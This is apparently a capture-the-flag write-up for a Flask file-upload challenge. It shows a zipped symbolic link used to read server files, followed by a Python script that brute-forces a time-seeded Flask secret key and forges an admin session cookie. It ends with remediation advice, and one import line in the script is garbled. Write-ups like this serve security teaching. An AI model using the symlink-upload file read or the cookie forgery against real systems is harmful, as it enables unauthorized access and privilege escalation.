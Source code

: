 ## Skills required: Local File Inclusion, basic enumeration and research

A simple little challenge solved with fsharp. I took some time because I overlooked some stuff, kudos to Kaiziron for spotting it.

## Solution:

Working backwards really shines in this challenge.

The flag is accessible at `/flag` if you are an admin as determined by the session cookie:

```py
@app.route("/flag")
def flag():
    if not session.get("admin"):
        return "Unauthorized!"
    return subprocess.run("./flag", shell=True, stdout=subprocess.PIPE).stdout.decode("utf-8")
```

`session.admin` is always set to `False` upon registration and the application does not touch on it anymore.
This means we have to **forge an admin token**. From [Flask documetntation](https://flask.palletsprojects.com/en/2.2.x/api/#sessions) we know that the `SECRET_KEY` alone determines how the cookie is signed:

```py
SECRET_OFFSET = 0 # REDACTED
a = time.time()
random.seed(round((a + SECRET_OFFSET) * 1000))
os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
```

We need 2 things:
- application start time (as accurate as possible)
- SECRET_OFFSET

Thankfully both can be found in files:
- **/tmp/server.log** for application start time (accurate to the nearest second)
- **/app/config.py** for SECRET_OFFSET (*this is what I overlooked*)

At this point the challenge is basically solved, as we have a glaring **local file inclusion vulnerability with zipped symbolic links**.
- Symbolic links are like shortcuts
- In Linux file system, symbolic links themselves are files and can be compressed in zip:

```
ln -s / root
zip --symlinks evil.zip root
```

After uploading the evilzip, I have full access to server files as allowed by my user:

![image](https://user-images.githubusercontent.com/114584910/213147450-725a65f7-b63c-4c4f-8ca7-9d2a9fb98248.png)

![image](https://user-images.githubusercontent.com/114584910/213147782-be855388-3939-46b1-bbd7-e80aa9538f9b.png)

It is important to stress that there's nothing wrong with any file paths ー the *folder* itself is malicious.

Now we only have 1000 possibitilies for the secret (1000 milliseconds), which took less than 0.5s to bruteforce, thanks to [this script from aescalana](https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe).

```py
import random, base64
from tqdm import tqdm0.25s
import multiprocessing as mp

from flask.sessions import SecureCookieSessionInterface
from itsdangerous import URLSafeTimedSerializer

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
	# Override method
	# Take secret_key instead of an instance of a Flask app
	def get_signing_serializer(self, secret_key):
		if not secret_key:
			return None
		signer_kwargs = dict(
			key_derivation=self.key_derivation,
			digest_method=self.digest_method
		)
		return URLSafeTimedSerializer(secret_key, salt=self.salt,
		                              serializer=self.serializer,
		                              signer_kwargs=signer_kwargs)

def decodeFlaskCookie(secret_key, cookieValue):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.loads(cookieValue)

# Keep in mind that flask uses unicode strings for the
# dictionary keys
def encodeFlaskCookie(secret_key, cookieDict):
	sscsi = SimpleSecureCookieSessionInterface()
	signingSerializer = sscsi.get_signing_serializer(secret_key)
	return signingSerializer.dumps(cookieDict)

ck = 'eyJhZG1pbiI6bnVsbCwidWlkIjoiUk4ifQ.Y8fN_A.Nrz4bqV2ghYoLs2MWyfmCn9i3ok'
start  =  1673997221 # https://www.epochconverter.com/
offset = -67198624

def trial(x):
  random.seed((start+offset)*1000+x)
  key = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
  try:
    decodedDict = decodeFlaskCookie(key, ck)
    print(key)
    print(encodeFlaskCookie(key, {"admin":True,"uid":"RN"}))
  except:
    pass

for i in tqdm(range(1000)):
	trial(i)
```

**FLAG:** `idek{s1mpl3_expl01t_s3rver}`

## Trivia:
- The symlink in zip technique allows for arbitrary read; a related technique called [zip slip](https://security.snyk.io/research/zip-slip-vulnerability) allows for arbitrary write.
  - During the challenge, it came across our minds, but we decided it wouldn't work because the application does not parse the zip by itself.
- The remediation is simple: [don't allow zip file uploads](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html#file-content-validation)
